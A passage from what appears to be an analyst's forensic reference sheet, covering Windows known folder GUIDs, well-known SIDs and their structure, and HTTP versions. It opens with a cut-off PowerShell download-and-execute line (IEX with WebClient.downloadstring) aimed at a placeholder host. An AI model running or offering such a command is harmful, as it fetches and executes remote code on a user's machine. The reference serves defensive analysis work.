 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
For an online converter which also includes function from different programming languages to get the current epoch time, look here: <https://www.epochconverter.com/>.

<a name="win-known-guids"></a>
### Windows known folder GUIDs
[*back to table of contents*](#b2t)

There are some common Windows GUIDs that an analyst should be across. Below is a brief table but more can be found here: <https://docs.microsoft.com/en-us/windows/win32/shell/knownfolderid>.

| Display Name | GUID |
| :----------- | :--- |
| Start Menu | {625B53C3-AB48-4EC1-BA1F-A1EF4146FC19} |
| VSS | {3808876b-xxxx-xxxx-xxxx-xxxxxxxxxxxx} |

For more information on the VSS read; <https://github.com/libyal/libvshadow/blob/master/documentation/Volume%20Shadow%20Snapshot%20(VSS)%20format.asciidoc>

and 

<https://docs.microsoft.com/en-us/windows/win32/vss/shadow-copies-and-shadow-copy-sets>.

<a name="win-known-sids"></a>
### Windows well known SIDs
[*back to table of contents*](#b2t)

This is something analysts will eventually get a feel for but it is generally known that the last part of the SID is the RID which can identify different types of users. For a comprehensive list go to: <https://support.microsoft.com/en-au/help/243330/well-known-security-identifiers-in-windows-operating-systems>.

| SID |	Meaning |
| :--- | :--- |
| S-1-5-21domain-500 |	Administrator |
| S-1-5-21domain-501 |	Guest |
| S-1-5-21domain-1000+ |	Local Users |

To further explain the SID the below table breaks down the components of an example SID. 

| S |	1 |	5 |	21-3623811015-3361044348-30300820 | 1013 |
| :--- | :--- | :--- | :--- | :--- |
| The string is a SID. | The revision level (the version of the SID specification). | The identifier authority value. | Domain or local computer identifier. |	A Relative ID (RID). Any group or user that is not created by default will have a Relative ID of 1000 or greater. |

<a name="http-ver-history"></a>
### HTTP version history
[*back to table of contents*](#b2t)

This information can be gleamed from the request string in most instances. 

| Protocol | Release |	Details |
| :--- | :--- | :--- |
| HTTP/0.9 |	1991 |	Should never be seen |
| HTTP/1.0 |	1996 |	Rare but not unheard of |
| HTTP/1.1 |	1997 |	Most common |
| HTTP/2 |	2015 |	Binary, multiplexed, generally with TLS |

<a name="http-response-codes"></a>
### HTTP response codes
[*back to table of contents*](#b2t)

```